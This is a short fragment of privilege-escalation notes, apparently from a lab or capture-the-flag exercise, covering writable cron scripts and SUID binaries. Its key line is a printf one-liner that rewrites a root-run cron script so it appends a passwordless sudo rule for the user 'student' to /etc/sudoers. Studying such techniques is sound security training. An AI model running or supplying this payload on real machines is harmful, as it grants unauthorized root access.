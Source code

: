 
<h4>Cronjobs</h4>
To specify where the path for the crontab is specified
```
grep -rnw /usr -e "/home/student/message"
```
If there's no text editor to edit your cronjob
```
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
```



<h4>Exploiting SUID Binaries</h4>
When it is an executable, you can use strings to check what it does
```
strings welcome
```

